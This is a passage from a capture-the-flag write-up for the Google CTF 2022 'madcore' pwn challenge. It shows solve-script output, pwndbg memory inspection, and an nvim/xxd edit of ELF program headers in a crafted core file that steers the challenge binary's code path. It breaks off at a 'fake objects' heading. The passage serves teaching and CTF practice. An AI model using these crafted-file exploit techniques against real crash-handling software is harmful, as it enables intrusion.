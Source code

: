 probably this is not 100% working solution, but worked for me. The value will be after offset (`0xd68`) at which the size was located.

And this is the result:

```bash
➜  writeup git:(main) ✗ ./solve.py CORE=crash/core.1001.14162.1657865437    
[*] len: 507904
[*] Switching to interactive mode
{"backtrace":[[0,"<unknown>"],[2137,"0x118\n"],[438894,"0x248\n"],[438366,"0x2a8\n"],[438540,"0x2c8\n"],[438366,"0x2e8\n"],[153840,"0x328\n"]],"modules":[]}
[*] Got EOF while reading in interactive
```

Let's check the value of `frameCount` before running `Backtrace::PushModule()`:

1. set breakpoint to `Backtrace::PushModule()`
2. Get the address from `RDI` register (address of `Backtrace` object)
3. print the value of `frameCount`:
```bash
pwndbg> x/xw $rdi+0x10      # value
0x5626f73fc750:	0x742f6572
pwndbg> x/xb $rdi+0x10+0x4  # has_value
0x5626f73fc754:	0x00
```

#### Backtrace initialization

This step is easy as the `Backtrace` is initialized unconditionally.

#### Avoid Backtrace::PushModule()

In order to avoid calling `Backtrace::PushModule()` we need to analyze the code that runs it:
```cpp
if ((binaryWithNewAddr != (Binary *)0x0) && binaryWithNewAddr.IsExecutable() == true)) {
  backtrace.PushModule(binaryWithNewAddr, addrInCore, tempAddr - address);
}
```
We have to change memory protections of all binaries in _coredump_ file to have lowest bit set to `0` and the condition will never be `true`.
It was really easy to do in `nvim`, just:
1. open it in binary mode: `$ nvim -b core`
2. use `:%!xxd` to move to human-friendly format
3. select the memory at the beginning that contains all `elf64_phdr` entries
4. replace all `0500 ` characters with `0400 `: `:'<,'>s/0500 /0400 /g`

and here is the result:

```bash
➜  writeup git:(main) ✗ ./solve.py CORE=crash/core.1001.14162.1657865437    
[*] len: 507904
[*] Switching to interactive mode
LLVMSymbolizer: error reading file: No such file or directory
[*] Got EOF while reading in interactive
```

#### fake objects


[googlectf]:    https://capturetheflag.withgoogle.com/challenges/pwn-madcore
[madcore_zip]:  https://embe221ed.dev/files/CTFs/GoogleCTF/2022/pwn/madcore/madcore.zip